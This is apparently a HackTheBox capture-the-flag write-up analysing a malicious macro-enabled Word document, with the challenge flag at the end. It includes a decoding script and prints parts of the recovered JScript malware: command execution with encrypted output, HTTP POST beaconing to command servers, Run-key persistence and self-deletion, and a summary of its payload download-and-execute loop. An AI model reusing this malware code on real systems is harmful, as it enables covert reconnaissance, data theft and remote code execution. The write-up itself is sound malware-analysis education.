# Game Invitation

## Scenario

In the bustling city of KORP™, where factions vie in The Fray, a mysterious game emerges. As a seasoned faction member, you feel the tension growing by the minute. Whispers spread of a new challenge, piquing both curiosity and wariness. Then, an email arrives: "Join The Fray: Embrace the Challenge." But lurking beneath the excitement is a nagging doubt. Could this invitation hide something more sinister within its innocent attachment?

## Given artifact

A macro-enabled word document

## Solving process

Nothing more to say about this document, I save `olevba` result into a text file, let's analyze it:



And when the domain is correct, it starts to drop the payload:



It read the current document in raw form and write to a file, convert to unicode then use regex to find for the marker.



Note the strings `vF8...` passed as argument to the call, later we will know that it is the XOR key. Let's extract the payload JS using a python script, regex is not necessarily used, as the marker is a fixed string, we can leverege `find()` to simplify the process:

```python
from pathlib import Path

docm=Path("invitation.docm")
out_file=Path("malform.js")

marker = b"sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
size = 13082

data=docm.read_bytes()

pos=data.find(marker)
if pos==-1:
    raise SystemExit("marker not found")
payload=bytearray(data[pos+len(marker):pos+len(marker)+size])

xor_key=45
for i in range(size):
    payload[i]^=xor_key
    xor_key=(xor_key^99)^(i%254)

out_file.write_bytes(payload)
```

Let's give the JS a look :





The flow is clear, it uses a custom base64 decoder to decode the payload, then use RC-4 cipher with the provided key to restore the original script, then passes to `eval()` for execution. To safely restore the payload, let's replace the passed argument with the hard-coded key:

```javascript
var DASz = "vF8rdgMHKBrvCoCp0ulm";
```

Then also replace the evil `eval()` function with an alternative to write decrypted payload to another file:

```js
require("fs").writeFileSync("decrypted.js", Iwlh);
```

Then run with `node decrypt.js` to get the script. This is our main dish, it's quite complex, let's break it down:



Note `Type=2` means stream in form of text, `CharSet=437` means code page 437, often used to read extended bytes like DOS/OEM



Note `Vxiu` will hold username returned by that function, and `lDd9` will hold the random string.







Yo, for flag hunters, it ends here, but not for learner like me, let's continue:

```js
function Jp6A(KgOm) {
  icVh = "c:\\Users\\" + Vxiu + "\\AppData\\Local\\Microsoft\\Windows\\";
  if (!Z6HQ.FOLDEREXISTS(icVh))
    icVh = "c:\\Users\\" + Vxiu + "\\AppData\\Local\\Temp\\";
  if (!Z6HQ.FOLDEREXISTS(icVh))
    icVh =
      "c:\\Documents and Settings\\" +
      Vxiu +
      "\\Application Data\\Microsoft\\Windows\\";
  return icVh;
}
```

This function chooses working directory, prioritize and fall back to others, returns that directory.





```js
function xhOC() {
  var U5rJ = icVh + "~dat.tmp";
  for (var i = 0; i < LwHA.length; i++) {
    CJPE.Run("cmd.exe /c " + LwHA[i] + '"' + U5rJ + "", 0, true);
  }
  var jxHd = S7EN(U5rJ);
  WScript.Sleep(1e3);
  Z6HQ.DELETEFILE(U5rJ);
  return t7Nl("2f532d6baec3d0ec7b1f98aed4774843", jxHd);
}
```

This function runs the commands in the list, and use the above encryption to encrypt the result

```js
function V9iU(pxug, tqDX) {
  try {
    var S47T = new ActiveXObject("MSXML2.XMLHTTP");
    S47T.OPEN("post", pxug, false);
    S47T.SETREQUESTHEADER(
      "user-agent:",
      "Mozilla/5.0 (Windows NT 6.1; Win64; x64); " + he50(),
    );
    S47T.SETREQUESTHEADER("content-type:", "application/octet-stream");
    var SoNI = DGbq(tqDX, true);
    S47T.SETREQUESTHEADER("content-length:", SoNI.length);
    S47T.SEND(SoNI);
    return S47T.responseText;
  } catch (e) {
    return "";
  }
}
```

This function sends beacon/data to the URLs

```js
function I7UO() {
  Z6HQ.DELETEFILE(WScript.SCRIPTFULLNAME);
  CJPE.REGDELETE(
    "HKEY_CURRENT_USER\\software\\microsoft\\windows\\currentversion\\run\\" +
      EBKd.substring(0, EBKd.length - 3),
  );
  WScript.Quit();
}
```

This function deletes script and run key

```js
function he50() {
  var wXgO = "";
  var JKfG = WScript.CreateObject("WScript.Network");
  var SoNI = zIRF + JKfG.ComputerName + Vxiu;
  for (var i = 0; i < 16; i++) {
    var DXHy = 0;
    for (var j = i; j < SoNI.length - 1; j++) {
      DXHy = DXHy ^ SoNI.charCodeAt(j);
    }
    DXHy = DXHy % 10;
    wXgO = wXgO + DXHy.toString(10);
  }
  wXgO = wXgO + zIRF;
  return wXgO;
}
```

This function creates identity string for User-Agent



I made a mistake in the above explanation, replace 'from' with 'to', the result is sent to server.

Well, I give up explaining here, too much functions, I will provide the flow below:

```text
1. Get the current username and choose a working directory.

2. Copy the script itself into that working directory.

3. Create a Registry Run key so the script can be launched again through wscript.exe.

4. Run multiple Windows system commands and save their output into a temporary file.

5. Read the temporary file, convert its content into a byte array, then delete the temporary file.

6. Encrypt the collected system information using an RC4-like algorithm with a hard-coded key.

7. Enter an infinite loop:
   - Send the encoded/encrypted data to each hard-coded URL through HTTP POST.
   - If the server response is "good":
     do nothing and continue.
   - If the response is "exit":
     quit the script.
   - If the response is "fail":
     delete the script, remove the Registry Run key, and quit.
   - If the response is "work":
     send another request to download a payload, decrypt it, write it as a .pif file, execute it, wait briefly, then delete it.

8. Sleep for around 60–65 minutes, then repeat the loop.
```

`Flag: HTB{m4ld0cs_4r3_g3tt1ng_Tr1cki13r}`


